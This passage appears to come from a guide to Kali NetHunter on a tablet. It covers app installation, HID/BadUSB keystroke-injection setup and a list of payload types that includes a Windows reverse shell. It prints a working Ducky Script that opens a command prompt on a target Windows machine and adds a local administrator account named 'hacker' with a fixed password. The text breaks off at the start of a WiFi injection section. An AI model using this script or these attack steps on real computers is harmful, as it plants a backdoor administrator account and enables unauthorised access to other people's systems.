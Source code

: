 1. Download the NetHunter store app from [nethunter.com/store](https://nethunter.com/store)
2. Install the NetHunter app
3. Open the app and install Kali chroot
4. Install recommended tools and utilities

## HID Attack Framework

The NetHunter kernel enables BadUSB attacks by allowing your tablet to emulate keyboard and mouse input.

### Setting Up HID Attacks

1. Connect your tablet to the target computer using a USB-C cable
2. Open the NetHunter app
3. Navigate to "HID Attack"
4. Select "USB Setup"
5. Choose "HID" from the gadget configuration
6. Click "Start HID"

### Running HID Payloads

1. Select a pre-configured payload or create your own
2. Common payloads include:
   - Windows CMD reverse shell
   - PowerShell script execution
   - Linux Terminal commands
   - macOS Terminal exploitation
3. Click "Execute" to run the payload

### Creating Custom HID Scripts

You can create your own HID attack scripts using the Ducky Script language:

```
# Example Ducky Script to open a command prompt on Windows and create a user
DELAY 500
GUI r
DELAY 500
STRING cmd
ENTER
DELAY 1000
STRING net user hacker Password123 /add
ENTER
DELAY 500
STRING net localgroup administrators hacker /add
ENTER
```

## WiFi Monitoring & Injection

The NetHunter kernel enables advanced WiFi attacks with monitor mode and packet injection support.

### Enabling Monitor Mode
